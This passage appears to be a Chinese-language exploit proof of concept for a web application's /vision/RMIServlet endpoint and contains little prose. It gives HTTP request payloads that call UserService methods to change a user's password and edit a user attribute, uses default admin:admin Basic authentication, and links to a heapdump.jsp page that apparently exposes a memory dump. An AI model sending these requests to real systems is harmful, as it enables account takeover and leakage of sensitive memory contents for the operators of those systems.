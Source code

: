 ```
className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 133
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

className=UserService&methodName=addUserAttribute&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","SYSTEM_user_isEdit","0",null]
```

其中 I8a94ca4e0175ab4aab4aaae90175d3e824c66a87 为用户的 id 字段，唯一身份标识

[https://127.0.0.1/vision/monitor/heapdump.jsp](https://127.0.0.1/vision/monitor/heapdump.jsp)

[https://127.0.0.1/vision/monitor/heapdump.jsp?dumpbin=true](https://127.0.0.1/vision/monitor/heapdump.jsp?dumpbin=true)
